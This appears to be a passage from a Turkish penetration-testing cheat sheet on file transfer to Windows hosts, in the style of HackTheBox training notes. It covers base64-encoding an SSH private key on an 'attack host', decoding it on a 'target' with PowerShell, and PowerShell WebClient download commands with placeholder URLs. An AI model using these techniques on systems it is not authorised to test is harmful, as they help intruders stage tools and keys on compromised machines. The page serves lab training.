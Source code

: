 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/file-transfer-cheat-sheet/"}
---
```





# WİNDOWS 


## Download  Operations

### 1- Base64 Encode - Decode ile File Transfer 

##### Adım 1 : Attack Host SSH Key MD5 Hash'ini Kontrol Et

```shell-session
$ md5sum id_rsa
```


##### Adım 2 : Atack Host SSH Anahtarını Base64'e Kodlama

```shell-session
 cat id_rsa |base64 -w 0;echo
```


##### Adım 3 : Hedef Windows Host'unda Base64 Decode

```powershell-session
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("Base64-Encodelanmış-Veri"))
```

##### Adım 4 : Hedef Windows Host'unda SSH Key MD5 Hash'ini Kontrol et 

```powershell-session
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```



### 2- PowerShell DownloadFile Method

##### 1- DownloadFile

```powershell-session

(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

```


##### 2- DownloadFileAsync
